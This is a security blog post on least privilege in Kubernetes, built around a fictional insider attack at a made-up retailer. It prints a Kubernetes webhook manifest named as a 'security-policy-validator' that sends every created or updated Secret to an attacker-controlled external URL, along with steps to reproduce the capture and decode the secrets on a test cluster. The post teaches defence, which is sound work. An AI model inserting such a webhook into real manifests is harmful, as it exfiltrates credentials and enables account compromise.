

Many things in security tend to come down to the same few concepts, one of the most important being to limit the surface area of attack. The [principle of least privilege](https://en.wikipedia.org/wiki/Principle_of_least_privilege) is the idea that we should design our operations to use only the minimal set of permissions required to accomplish the task. When deploying applications in Kubernetes, this usually means making use of multiple personas for the deployment of different resources. (This concept applies to running applications as well, but that's a discussion for a different time.)

Many production Kubernetes clusters, even if used to host a single app, require deploying prequisites that may need to create cluster-level resources, such as [`CustomResourceDefinitions`](https://kubernetes.io/docs/tasks/extend-kubernetes/custom-resources/custom-resource-definitions/) or perhaps even `ClusterRole` and `ClusterRoleBinding` objects. These types of resources typically require a cluster administrator (or RBAC-equivalent) account to deploy, because they have an effect broadly across the entire cluster. For convenience, many teams may be tempted to use this elevated permission set to deploy *everything* to the cluster. After all, who wants to deal with two (or more!) service principals in their pipelines? That's just too much work, and we've got a deadline to meet!

The danger here is that the more things you deploy, the less certainty you'll generally have of the content. Let's consider an example.

The dev team at the plastic container retailer Wiza-Bins[^1] has decided to run their next-gen, micro-service-based shopping platform atop Kubernetes. As part of the deployment, they've decided that like most modern Kubernetes devs, they'll make use of the [MySql operator](https://github.com/mysql/mysql-operator/tree/trunk/helm/mysql-operator) for Kubernetes, and deploy it via Helm. I'm as much a fan of operators as anyone else, but they generally rely on the ability to deploy CRDs and other cluster-level resources to provide their services, so you should always review these deployments to make sure they meet your security and compliance demands before deploying them to your cluster.

The Wiza-Bins team, being the devops-savvy group they are, decide to build a pipeline in their favorite CI/CD tool. They know they need to give the service principal cluster level permission to deploy the CRDs and cluster objects required by the MySQL operator chart, so they configure that, add their `helm upgrade -i ...` task to the pipeline and are off to the races. Success! They've now got a way to easily manage MySQL database instances within their cluster. Because the operator doesn't change very often, this pipeline doesn't run very much. Now, it's time to create the pipeline to deploy their application.

Frank, the lead devops engineer at Wiza-Bins, figures that there's no sense in creating another service account to deploy the application. After all, they've already configured the first one, and it's got all the access (and more!) that it needs to get their application deployed. Why spend the time configuring another? So he creates a second pipeline to deploy their app. Because their app consists of a few dozen microservices, the Helm charts they use for it consist of quite a few files. There are even a few other Helm charts that they use from other sources to deploy some additional dependencies

There is ***So. Much. YAML.***


Undeterred, Frank creates all the pipeline steps, `kubectl apply -f`-ing and `helm upgrade -i`-ing all over the place, copying examples from StackOverflow and other places on the web, until he's finally got the application successfully deployed. Hurrah! The new shopping platform is a success. Profits are up 250%. The team revels in their accomplishment. But now there's more work to do. Features to develop, reports to create; a developer's job is never done. So the team hires a few more engineers to tackle the work, including a particularly promising engineer named Scott who's got 10 years of production Kubernetes experience under his belt.[^2]

Scott, as it turns out, isn't the most trustworthy guy around. But he *does* know a thing or two about Kubernetes that his less erudite teammates do. So while he's creating a pull request to handle some configuration changes in the various Helm charts for the application, he decides to slip the following file into the mix.

```yaml
apiVersion: admissionregistration.k8s.io/v1
kind: ValidatingWebhookConfiguration
metadata:
  name: security-policy-validator
webhooks:
  - name: wizabin.validateya.ml
    failurePolicy: Ignore
    timeoutSeconds: 1
    admissionReviewVersions: ["v1", "v1beta1"]
    sideEffects: None
    rules:
    - operations: ["CREATE","UPDATE"]
      apiGroups: ["*"]
      apiVersions: ["*"]
      resources: ["secrets"]
    clientConfig:
      url: "https://wizabin.validateya.ml/validator"
```

Frank and Ben (another engineer on the team) review Scott's PR. They question the `ValidatingWebhookConfiguration` resource, having only seen things like `Deployment` and `Service` resources and the like. But Scott's the Kubernetes *expert*, and to a novice, anything labeled as "security" must be a good thing, right?[^3] So the PR gets approved, and later deployed to production.

A few weeks later, Scott gets an offer from another company, and leaves the team. Jim, the project manager, decides to throw a farewell party as a thanks for all Scott has contributed to the team. They'd never have made it to version 2.0 of the platform without his expertise in Kubernetes. Cake is eaten, handshakes and high-fives are exchanged, and Scott drives off at the end of the day.

...you probably see where this is heading.

A few weeks later, the team notices that some of their payment processor accounts have some discrepancies. Customers are calling in with complaints. Some of their SaaS based accounts seem to be compromised. In short, *everything* has gone wrong. So what happened?

As it turns out, Scott was the owner of the `validateya.ml` domain in the `ValidatingWebhookConfiguration`, and that resource has the effect of sending the entire contents of any `Secret` object created or updated in the cluster to the `https://wizabin.validateya.ml/validator` URL. All he had to do was sit back and wait for the secrets to all manner of resources came rolling in, at which point he could compromise services at his leisure, wreaking all sorts of havoc against his former employer.

`ValidatingWebhookConfiguration` resources are *not intrinsically unsafe*. Most often, they're used to validate policy against incoming resources, and are usually deployed as resources inside the cluster rather than as external resources like we've shown here. [OPA Gatekeeper](https://open-policy-agent.github.io/gatekeeper/website/docs/) and [Kyverno](https://kyverno.io/) are two such tools for doing this sort of policy enforcement. The danger of insider threat is not the only way such a vulnerability could manifest either. Are you certain that you can trust any externally sourced applications or Helm charts that you deploy alongside your app? (Think databases, logging utilities, service meshes, etc.) What if they got unknowingly compromised? Supply chain attacks are certainly a risk here, which is why I'll reiterate my stance that "the more things you deploy, the less certainty you'll generally have about the content", especially when using accounts with elevated privileges to do the deployments.

If you'd like to try something similar for yourself[^4], head on over to [PipeDream's RequestBin](https://pipedream.com/requestbin) to create a unique URL that you can use to view incoming requests via your browser. Then change lines 6 and 17 in the YAML above to include that custom URL. Once done, use the following command to deploy a sample secret to your cluster (or create your own).

```bash
kubectl create secret generic db-user-pass \
    --from-literal=username=admin \
    --from-literal=password='S!B\*d$zDsb='
```

You should be able to see the request come in, which will look something like this:



Decode the two `data` objects from base64 to roundtrip the contents of the secret.

```bash
echo 'YWRtaW4=' | base64 -d  # returns admin
echo 'UyFCXCpkJHpEc2I9' | base64 -d  # returns S!B\*d$zDsb=
```

The takeaway from this story should be this: be certain to critically review *anything* that gets deployed using a cluster admin level account. Limit the resources that you deploy using it, and use less privileged accounts with just enough RBAC privileges assigned to get the job done for the rest of your deployments. There are other mitigations that can help these scenarios as well, most notably restricting network egress from the cluster using a firewall or other network security policy. We'll dive more into that setup in a future post.

Until then, I'll invite you to view the presentation from [Ian Coldwater](https://twitter.com/IanColdwater) and [Brad Geesaman](https://twitter.com/bradgeesaman) that inspired this post, which has demos of the above exploit and more.


[^1]: totally fake company name generated via [this tool](https://fauxid.com/tools/fake-company-generator?country=united-states&count=10)
[^2]: perceptive readers will have already done the math here. [Kubernetes 1.0 was released on July 21, 2015...](https://en.wikipedia.org/wiki/Kubernetes#History)
[^3]: another fun naming strategy might be to call this resource the `secrets-disaster-recovery-plan`
[^4]: please don't do this on a production cluster! 😊
